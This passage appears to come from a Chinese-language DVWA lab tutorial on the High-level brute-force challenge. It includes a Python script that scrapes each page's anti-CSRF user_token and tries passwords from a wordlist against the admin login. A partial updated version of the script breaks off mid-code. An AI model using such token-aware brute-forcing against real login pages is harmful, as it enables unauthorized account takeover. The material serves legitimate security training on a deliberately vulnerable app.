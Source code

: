 同时，High 级别的代码中，使用了 stripslashes(去除字符串中的反斜线字符,如果有两个连续的反斜线,则只去掉一个)、 mysql_real_escape_string 对参数 username、password 进行过滤、转义，进一步抵御 sql 注入。

**使用 python 脚本爆破**

`适用于老版本 dvwa 环境`
```python
from bs4 import BeautifulSoup
import urllib2
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=5re92j36t4f2k1gvnqdf958bi2'
        }
requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"

def get_token(requrl,header):
	req = urllib2.Request(url=requrl,headers=header)
	response = urllib2.urlopen(req)
	print response.getcode(),
	the_page = response.read()
	print len(the_page)
	soup = BeautifulSoup(the_page,"html.parser")
	user_token = soup.form.input.input.input.input["value"] # get the user_token
	return user_token

user_token = get_token(requrl,header)
i=0
for line in open("rkolin.txt"):
	requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
	i = i+1
	print i,'admin',line.strip(),
	user_token = get_token(requrl,header)
	if (i == 10):
		break
```
get_token 的功能是通过 python 的 BeautifulSoup 库从 html 页面中抓取 user_token 的值，为了方便展示，这里设置只尝试 10 次。

注:在最新版本中，由于 hard 难度的源代码修改，无法直接使用 BeautifulSoup 匹配 user_token 值，在此给出我略微修改的版本
```python
import requests, re
from bs4 import BeautifulSoup

requrl='http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/'
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://192.168.153.130/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=vlalfd2e2rbtptnd8pqqn646g4'
```